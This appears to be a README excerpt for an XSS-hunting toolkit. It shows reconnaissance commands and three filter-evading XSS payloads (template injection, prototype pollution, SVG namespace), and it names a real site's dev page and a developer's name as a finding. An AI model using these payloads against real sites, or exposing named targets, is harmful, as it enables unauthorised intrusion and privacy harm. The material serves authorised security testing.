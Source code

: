 ### ⚡ **Quick Reconnaissance**
```bash
# Hunt development interfaces
make dev-hunt DOMAIN=example.com
./tools/dev-hunter example.com

# Full reconnaissance pipeline
make hunt DOMAIN=example.com
./tools/xss-crawler -d example.com -w my_scan

# Multi-source intelligence
./tools/xss-crawler -d example.com -f 'domain="example.com"' -s 'hostname:example.com'
```

### 🎯 **Real-World Example**
```
🔍 Development Interface Discovery

URL: https://secure.trip.com/dev/test.html
Confidence: 85%
Developer: chen.yun
Date: 2025-04-16 10:54:25
Risk: Information Disclosure
```

### 🚀 **Quick Usage**
```bash
# Test all new categories
python3 tools/test_advanced_categories.py

# Test specific category
python3 tools/test_advanced_categories.py template_injection

# Use with AI tools
xss-ai-domfuzz --contexts template_injection,prototype_pollution
xss-context /path/to/app --format json
```

### 💀 **Example God-Tier Payloads**

**Template Injection (Evasion Level: 10/10)**
```javascript
{{constructor.constructor('alert(1)')()}}
```

**Prototype Pollution XSS (Evasion Level: 10/10)**  
```javascript
__proto__.onerror = alert; throw 1;
```

**SVG Namespace Injection (Evasion Level: 10/10)**
```html
<svg><foreignObject><div xmlns="http://www.w3.org/1999/xhtml"><script>alert(1)</script></div></foreignObject></svg>
```
